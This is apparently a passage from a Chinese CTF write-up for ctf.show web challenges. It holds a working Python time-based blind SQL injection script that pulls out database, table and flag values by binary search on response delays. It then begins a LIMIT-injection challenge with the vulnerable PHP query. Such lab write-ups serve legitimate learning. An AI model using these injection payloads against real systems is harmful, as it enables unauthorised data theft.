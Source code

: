 ```python
url = "http://5436efa6-7299-4603-b73c-2c97d55a1620.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxcac,ctfshow_info
# payload = "select table_name from information_schema.tables where table_schema=database() limit 1"
# 爆表名 id,flagaabcc,info
# payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
# 爆字段
payload = "select flagaabcc from ctfshow_flagxcac"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        # time.sleep(1
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ord(right(left(({}), {}), 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 0)-- -".format(payload, i, mid),
            'debug' : 1
        }
        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
    
        if r > 0.3: #响应时间超过0.3s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢

```
## web221（limit注入）
参考文章：[https://www.cnblogs.com/blacksunny/p/9115141.html](https://www.cnblogs.com/blacksunny/p/9115141.html)
```php
  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;

//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```
第一次遇到这种题，收集一下姿势吧，看一眼题面，两个参数，而且是跟在limit后的，所以猜想是limit注入。查了资料：
```sql
# MYSQL 5.x
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
    [WHERE where_condition]
```